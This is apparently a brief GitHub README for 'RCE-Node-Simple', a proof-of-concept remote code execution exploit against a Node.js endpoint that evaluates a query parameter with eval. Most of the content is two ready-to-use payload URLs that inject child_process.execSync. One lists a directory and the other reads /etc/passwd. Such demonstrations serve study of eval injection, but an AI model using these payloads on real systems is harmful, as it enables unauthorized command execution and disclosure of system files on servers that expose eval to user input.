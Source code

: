 # RCE-Node-Simple
Simple RCE exploit using eval builtin function

### Example query
```
http://localhost:9898/menus?q=arguments[1].end(require('child_process').execSync('ls -a'))
```

### Example query
```
http://localhost:9898/menus?q=arguments[1].end(require('child_process').execSync('cat /etc/passwd'))
```

